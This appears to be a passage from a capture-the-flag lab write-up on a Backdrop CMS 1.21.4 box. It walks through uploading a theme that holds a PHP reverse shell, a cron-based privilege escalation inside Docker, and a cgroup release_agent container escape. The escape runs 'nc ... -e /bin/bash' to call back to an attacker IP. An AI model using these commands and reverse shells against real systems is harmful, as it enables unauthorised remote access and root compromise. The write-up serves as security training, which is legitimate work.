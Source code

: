 This configuration in foxyproxy sends all requests through 127.0.0.1:2222.  Navigate to https://127.0.0.1:8002.   Use the credentials we found with wireshark to login.  Looking around on the site we find it is using backdrop CMS version 1.21.4:

![image](https://user-images.githubusercontent.com/93153300/204039632-da6664f0-9bd7-4126-bcb5-74dcba6d9fec.png)

Search google for ‘backdrop cms 1.21 exploit’.  We find that we can to add a theme that will contain a reverse shell.  

![image](https://user-images.githubusercontent.com/93153300/204039647-d23691de-b4ff-4c12-8713-ae297adcc7f7.png)

Follow these steps for uploading the reverse shell and running it:<br>
Step 1: Download backdrop cms theme to our local kali: git clone https://github.com/backdrop-contrib/lateral.git <br>
Step 2: Add a php pentestmonkey reverse shell file into the lateral directory we just downloaded from github.<br>
Step 3: After some testing on the site https://127.0.0.1:8002, we find that the upload has certain filters in place.  The page allows tar uploads, and only allows up to 2MB size.  To get the size under 2MB, delete all the files in the 'lateral' directory except for the reverse shell file we added and the ‘lateral.info’ file (as the site checks for the ‘lateral.info’ file).  Next, turn the 'lateral' directory into a tar file: tar -cvf lateral.tar lateral <br>
Step 4: On the https://127.0.0.1:8002 site, click on appearance → Install new themes → Manual installation → browse → upload the lateral.tar file we made.  <br>
Step 5: Open a netcat reverse shell (we will use pwncat as it gives a better shell): pwncat-cs -lp 443 <br>
Step 6: To activate the reverse shell navigate to https://127.0.0.1:8002/themes/lateral/revshell.php

We now have a shell as user www-data in a docker on 172.17.0.2.
________________________________________________________________
<b>Docker Privilege Escalation:</b><br>
Read file /opt/heartbeat.sh:

![image](https://user-images.githubusercontent.com/93153300/204039661-c100ebca-d781-41a9-a86d-4decfce19cc8.png)

This file shows a script for a cron running every 10 seconds (checking with pspy confirms this cron).  If we replace /var/www/html/backdrop/index.php with a php reverse shell then we can get shell as root.  
  
Step 1: Open a netcat listener: nc -lvnp 443 <br>
Step 2: Change file /var/www/html/backdrop/index.php to a pentestmonkey php reverse shell. <br>
Step 3: Wait a few seconds.  We now have a shell as user root within the docker.  
____________________________________________________________________
<b>Docker Escape Privilege Escalation:</b><br>
Below are the commands for the docker escape we will perform.  For  understanding on how the docker escape works read: https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

Step 1: On our local kali, run a netcat listener: nc -lvnp 443
Step 2: unshare -UrmC bash <br>
Step 3: mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x && echo 1 > /tmp/cgrp/x/notify_on_release && host_path=\`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab\` && echo "$host_path/cmd" > /tmp/cgrp/release_agent && echo '#!/bin/sh' > /cmd && echo "nc 10.10.14.108 443 -e /bin/bash" >> /cmd && chmod a+x /cmd && sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" 

Our netcat listener received a shell as root, and we have escaped the docker.  We can get the flag in /root/root.txt
